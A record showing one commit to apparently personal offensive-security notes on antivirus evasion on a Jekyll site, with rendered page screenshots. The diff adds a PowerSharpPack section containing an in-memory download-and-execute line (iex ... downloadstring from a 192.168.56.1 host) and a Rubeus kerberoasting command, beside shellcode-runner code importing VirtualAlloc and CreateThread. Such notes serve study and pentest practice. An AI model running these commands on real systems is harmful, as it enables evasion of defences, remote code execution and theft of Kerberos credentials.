

Before and after one commit to KhaelK138/KhaelK138.github.io, a Jekyll site: the page built from markdown/AntivirusEvasion.md, in a window 1280 px wide and 1400 px high, scrolled down 2352 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; before the commit the page ends 3509 px from its top, so only the background shows below that.

Commit message:
fixed some notes

````diff
--- a/markdown/AntivirusEvasion.md
+++ b/markdown/AntivirusEvasion.md
@@ -122,12 +122,19 @@ $out = [Console]::Out;$sWriter = New-Object IO.StringWriter;[Console]::SetOut($s
 
 ```
 
+- If instead of dealing with executables we'd just like to use powershell, we can use [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack)
+    - `iwr https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/refs/heads/master/PowerSharpPack.ps1 -o psp.ps1`
+    - Insanely useful powershell script that has C# executables bundled into it as compiled base64 binaries
+    - Run with `iex(new-object net.webclient).downloadstring('http://192.168.56.1:8080/PowerSharpPack/PowerSharpPack.ps1')` and `PowerSharpPack -Rubeus -Command "kerberoast /outfile:Roasted.txt"`, for example
+
 # Import VirtualAlloc to allocate memory
+
+```
 $code = '
 [DllImport("kernel32.dll")]
 public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
 
-# Import CreateThreat to create execution threads
+# Import CreateThread to create execution threads
 [DllImport("kernel32.dll")]
 public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
 
````
